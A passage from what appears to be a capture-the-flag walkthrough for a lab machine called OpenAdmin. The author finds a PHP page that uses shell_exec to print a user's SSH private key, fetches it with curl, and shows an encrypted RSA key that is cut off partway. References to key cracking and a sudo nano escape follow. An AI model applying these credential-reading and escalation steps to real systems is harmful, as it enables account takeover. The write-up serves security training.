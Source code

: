 So jimmy has a directory with the group internal, which was one of the things mentioned from the HTML-page from port 52846. Let's look closer at the contents in the directory:
~~~
$ ls -laR /var/www/internal/
~~~

~~~
/var/www/internal/:
total 20
drwxrwx--- 2 jimmy internal 4096 Nov 23  2019 .
drwxr-xr-x 4 root  root     4096 Nov 22  2019 ..
-rwxrwxr-x 1 jimmy internal 3229 Nov 22  2019 index.php
-rwxrwxr-x 1 jimmy internal  185 Nov 23  2019 logout.php
-rwxrwxr-x 1 jimmy internal  339 Nov 23  2019 main.php
~~~

Looking at main.php gives us this: 
~~~
$ cat /var/www/internal/main.php
~~~

~~~
<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /index.php"); }; 
# Open Admin Trusted
# OpenAdmin
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
?>
<html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
~~~

# User and priv escalation

## User
So it seems we can get the user joannas private key from port 52846 and it has a “ninja” password. First I tried with `netcat` but after a while I figured it would be easier to just use `curl` for the request:
~~~
$ curl http://localhost:52846/main.php
~~~

~~~
<pre>-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,2AF25344B8391A25A9B318F3FD767D6D

kG0UYIcGyaxupjQqaS2e1HqbhwRLlNctW2HfJeaKUjWZH4usiD9AtTnIKVUOpZN8
ad/StMWJ+MkQ5MnAMJglQeUbRxcBP6++Hh251jMcg8ygYcx1UMD03ZjaRuwcf0YO
ShNbbx8Euvr2agjbF+ytimDyWhoJXU+UpTD58L+SIsZzal9U8f+Txhgq9K2KQHBE
6xaubNKhDJKs/6YJVEHtYyFbYSbtYt4lsoAyM8w+pTPVa3LRWnGykVR5g79b7lsJ
ZnEPK07fJk8JCdb0wPnLNy9LsyNxXRfV3tX4MRcjOXYZnG2Gv8KEIeIXzNiD5/Du
y8byJ/3I3/EsqHphIHgD3UfvHy9naXc/nLUup7s0+WAZ4AUx/MJnJV2nN8o69JyI
9z7V9E4q/aKCh/xpJmYLj7AmdVd4DlO0ByVdy0SJkRXFaAiSVNQJY8hRHzSS7+k4
piC96HnJU+Z8+1XbvzR93Wd3klRMO7EesIQ5KKNNU8PpT+0lv/dEVEppvIDE/8h/
/U1cPvX9Aci0EUys3naB6pVW8i/IY9B6Dx6W4JnnSUFsyhR63WNusk9QgvkiTikH
40ZNca5xHPij8hvUR2v5jGM/8bvr/7QtJFRCmMkYp7FMUB0sQ1NLhCjTTVAFN/AZ
fnWkJ5u+To0qzuPBWGpZsoZx5AbA4Xi00pqqekeLAli95mKKPecjUgpm+wsx8epb
9FtpP4aNR8LYlpKSDiiYzNiXEMQiJ9MSk9na10B5FFPsjr+yYEfMylPgogDpES80
X1VZ+N7S8ZP+7djB22vQ+/pUQap3PdXEpg3v6S4bfXkYKvFkcocqs8IivdK1+UFg
S33lgrCM4/ZjXYP2bpuE5v6dPq+hZvnmKkzcmT1C7YwK1XEyBan8flvIey/ur/4F
FnonsEl16TZvolSt9RH/19B7wfUHXXCyp9sG8iJGklZvteiJDG45A4eHhz8hxSzh
Th5w5guPynFv610HJ6wcNVz2MyJsmTyi8WuVxZs8wxrH9kEzXYD/GtPmcviGCexa
RTKYbgVn4WkJQYncyC0R1Gv3O8bEigX4SYKqIitMDnixjM6xU0URbnT1+8VdQH7Z
~~~

[^1]: https://www.exploit-db.com/exploits/47691
[^2]: https://null-byte.wonderhowto.com/how-to/crack-ssh-private-key-passwords-with-john-ripper-0302810/ 
[^3]: https://gtfobins.github.io/gtfobins/nano/#sudo 